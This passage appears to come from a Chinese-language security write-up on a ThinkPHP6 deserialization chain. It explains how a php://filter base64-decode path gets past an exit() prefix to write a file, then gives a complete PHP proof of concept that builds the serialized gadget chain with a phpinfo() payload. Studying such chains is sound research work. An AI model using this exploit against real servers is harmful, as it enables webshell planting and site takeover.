 > 主要看看 `$filename` 和 `$data` 这两个参数是怎么赋值的，先跟进一下 `$filename` 参数，其值来源于 `getCacheKey()` 方法，跟进该方法发现 `$filename` 参数是可控的：`$name `为文件名来源于 `$this->key`，`$this->options['hash_type']` 也可控，最终文件名是经过 hash 后的，所以最终文件名可控，`$this->options['path']` 使用 `php filter` 构造 `php://filter/write=convert.base64-decode/resource=think/public/`
> 接着再来看看 `$data` 参数，前面分析已知来源于 `$this->serialize`，此处存在 exit()，正好结合上一步的文件名构造利用 `php://filter` 来绕过死亡 exit()，[参考文章](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)：假设传入的 `$expire=1`，那么写入的 webshell 前面部分在拼接之后能够被解码的有效字符为：`php//000000000001exit` 共有21个，要满足 base64 解码的 4 字符为 1 组的规则，在其前面补上 3 个字符用于逃逸之后的 base64 解码的影响

#### POC
```php
<?php 

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache {
        protected $autosave = false;
        protected $complete = "uuuPD9waHAgcGhwaW5mbygpOw==";
    }
}

namespace think\filesystem {
    use League\Flysystem\Cached\Storage\AbstractCache;
    class CacheStore extends AbstractCache {
        protected $key = "1";
        protected $store;
        public function __construct($store="") {
            $this->store = $store;
        }
    }
}

namespace think\cache {
    abstract class Driver {
        protected $options = ["serialize"=>["trim"],"expire"=>1,"prefix"=>false,"hash_type"=>"md5","cache_subdir"=>false,"path"=>"php://filter/write=convert.base64-decode/resource=C:/Tools/phpstudy_pro/WWW/html/ThinkPHP6/public/","data_compress"=>0];
    }
}

namespace think\cache\driver {
    use think\cache\Driver;
    class File extends Driver{}
}

namespace {
    $file = new think\cache\driver\File();
    $cache = new think\filesystem\CacheStore($file);
    echo base64_encode(serialize($cache));
}
?>
```
